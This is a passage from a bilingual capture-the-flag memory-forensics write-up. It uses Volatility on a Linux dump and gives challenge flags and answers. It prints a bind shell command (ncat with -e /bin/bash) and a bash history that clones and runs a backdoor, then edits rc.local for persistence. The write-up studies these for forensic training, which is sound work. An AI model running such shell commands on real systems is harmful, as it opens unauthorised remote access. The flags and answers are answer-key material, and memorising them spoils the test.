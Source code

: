 `shkCTF{l3ts_st4rt_th3_1nv3st_75cc55476f3dfe1629ac60}`

### Q3

What is the PID of the suspicious process?

¿Cuál es el PID del proceso sospechoso?

```bash
volatility2 -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_psaux
```

```bash
Pid    Uid    Gid    Arguments

2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
```

#### Respuesta

`2854`


### Q4

The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

El atacante descargó un backdoor para ganar persistencia. Cuál es el mensaje oculto en este backdoor?

```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: commands
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Pid      Name                 Command Time                   Command
   2   │ -------- -------------------- ------------------------------ -------
   3   │     2622 bash                 2020-05-07 14:56:16 UTC+0000   cd Documents/
   4   │     2622 bash                 2020-05-07 14:56:17 UTC+0000   echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNz
       │ dF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt
   5   │     2622 bash                 2020-05-07 14:56:25 UTC+0000   git clone https://github.com/tw0phi/PythonBackup
   6   │     2622 bash                 2020-05-07 14:56:28 UTC+0000   cd PythonBackup/
   7   │     2622 bash                 2020-05-07 14:56:33 UTC+0000   unzip PythonBackup.zip 
   8   │     2622 bash                 2020-05-07 14:56:37 UTC+0000   python PythonBackup.py 
   9   │     2622 bash                 2020-05-07 14:56:40 UTC+0000   sudo python PythonBackup.py 
  10   │     2622 bash                 2020-05-07 14:57:05 UTC+0000   cooooooooooooooooooooooooool
  11   │     2622 bash                 2020-05-07 15:00:12 UTC+0000   cd
  12   │     2622 bash                 2020-05-07 15:00:15 UTC+0000   git clone https://github.com/504ensicsLabs
       │ /LiME
  13   │     2622 bash                 2020-05-07 15:00:19 UTC+0000   cd LiME/src/
  14   │     2622 bash                 2020-05-07 15:00:24 UTC+0000   make
  15   │     2622 bash                 2020-05-07 15:00:37 UTC+0000   sudo insmod lime-3.10.0-1062.el7.x86_64.ko
       │  "path=/Linux64.mem format=lime"
  16   │     2887 bash                 2020-05-07 14:59:42 UTC+0000   vim /etc/rc.local
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────
```
